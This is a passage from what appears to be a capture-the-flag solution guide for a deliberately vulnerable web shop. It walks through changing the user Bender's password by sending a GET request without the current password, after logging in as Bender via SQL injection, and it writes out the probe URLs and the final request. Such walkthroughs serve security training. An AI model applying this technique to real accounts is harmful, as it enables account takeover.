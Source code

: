 ### Change Bender's password into slurmCl4ssic without using SQL Injection or Forgot Password

1. Log in as anyone.
2. Inspecting the backend HTTP calls of the _Password Change_ form
   reveals that these happen via `HTTP GET` and submits current and new
   password in clear text.
3. Probe the responses of `/rest/user/change-password` on various
   inputs:
   * <http://localhost:3000/rest/user/change-password?current=A> yields
     a `401` error saying `Password cannot be empty.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B>
     yields a `401` error saying `New and repeated password do not
     match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C>
     also says `New and repeated password do not match.`
   * <http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B>
     says `Current password is not correct.`
   * <http://localhost:3000/rest/user/change-password?new=B&repeat=B>
     yields a `200` success returning the updated user as JSON!
4. Now
   [Log in with Bender's user account](#log-in-with-benders-user-account)
   using SQL Injection.
5. Craft a GET request with Bender's `Authorization Bearer` header to
   <http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic>
   to solve the challenge.

   ![GET request via PostMan](img/csrf_postman.png)
